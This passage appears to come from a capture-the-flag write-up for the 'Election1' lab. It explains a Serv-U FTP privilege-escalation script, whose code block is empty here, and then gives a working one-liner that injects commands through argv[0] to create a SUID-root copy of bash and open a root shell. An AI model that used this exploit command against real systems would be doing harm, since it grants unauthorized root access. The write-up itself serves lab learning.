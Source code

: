 ```bash
```

In the above Bash exploit script, it has the following things:

1. Line 1-4:

- Checking the `/usr/local/Serv-U/Serv-U` has SUID bit set or not. If not, exit the script.

2. Line 8: (Exploit part)

- If the binary has SUID bit set, it'll first launch the `Serv-U` binary with `-prepareinstallation` option, then copy `/bin/bash` to `/tmp/sh`, change the owner of `/tmp/sh` to root, set SUID bit set and executable to `/tmp/sh`.

3. Line 10-14:

- If there is no `/tmp/sh` file, then exit the script, and echo the exploit has failed.

4. Line 16-20:

- If the `/tmp/sh` successfully copied, then it'll launch a root shell.

**We can just copy the exploit part and manually launch the root shell!**

**Exploit command:**
```bash
/bin/bash -c 'exec -a "\";cp /bin/bash /tmp/sh; chown root /tmp/sh; chmod u+sx /tmp/sh;\"" /usr/local/Serv-U/Serv-U -prepareinstallation'
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Election1/images/a43.png)

And we're root! :D

# Rooted

**proof.txt:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Election1/images/a44.png)

# Conclusion

What we've learned:

1. Web Crawler (`robots.txt`)
2. Directory Enumeration
3. Binary to ASCII
4. MySQL Union-Based SQL Injection to RCE
5. Privilege Escalation via Reused Password
6. Privilege Escalation via Vulnerable Serv-U FTP Server